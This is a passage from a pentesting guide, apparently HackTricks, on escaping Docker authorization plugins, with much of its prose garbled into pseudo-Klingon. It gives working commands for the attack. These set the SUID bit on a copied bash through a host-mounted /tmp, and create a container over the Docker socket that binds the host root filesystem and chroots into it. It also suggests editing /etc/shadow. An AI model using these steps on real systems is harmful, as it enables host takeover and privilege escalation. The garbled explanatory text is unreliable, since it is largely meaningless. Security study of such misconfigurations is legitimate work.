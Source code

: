 ```bash
```
DaH, lo'laHbe'chugh containerbogh **[ghItlhvam vItlhutlh](./#privileged-flag)** 'ej **[ghItlhvam vItlhutlh](./#escalate-privileges)** 'e' vItlhutlh.

## Writable Folder jImej

vaj sysadmin **containerbogh `--privileged` flag** 'ej containerbogh **ghItlhvam vItlhutlh** capability vItlhutlh 'e' vItlhutlh. 'ej **`/tmp` folder** mount vItlhutlh:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
{% hint style="info" %}
ghobe'wI' jatlhqa'chugh `/tmp` qutlh. 'ej **qutlh writable folder** qutlh. writable directories using: `find / -writable -type d 2>/dev/null`

**ghobe'wI' jatlhqa'chugh linux machine directories suid bit support!** SuID bit support directories run `mount | grep -v "nosuid"` For example usually `/dev/shm` , `/run` , `/proc` , `/sys/fs/cgroup` 'ej `/var/lib/lxcfs` SuID bit support.

ghobe'wI' jatlhqa'chugh **mount `/etc`** 'ej **configuration files containing folder** qutlh, root container as modify **abuse them in the host** 'ej privileges escalate (maybe modifying `/etc/shadow`)
{% endhint %}

## Unchecked API Endpoint

The responsibility of the sysadmin configuring this plugin would be to control which actions and with which privileges each user can perform. Therefore, if the admin takes a **blacklist** approach with the endpoints and the attributes he might **forget some of them** that could allow an attacker to **escalate privileges.**

You can check the docker API in [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/#)

## Unchecked JSON Structure

### Binds in root

It's possible that when the sysadmin configured the docker firewall he **forgot about some important parameter** of the [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) like "**Binds**".\
In the following example it's possible to abuse this misconfiguration to create and run a container that mounts the root (/) folder of the host:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
{% hint style="warning" %}
Qapla'! jImejDaq vItlhutlh **`Binds`** param vItlhutlh JSON Daq root level key vItlhutlh, 'ach API Daq **`HostConfig`** key vItlhutlh.
{% endhint %}
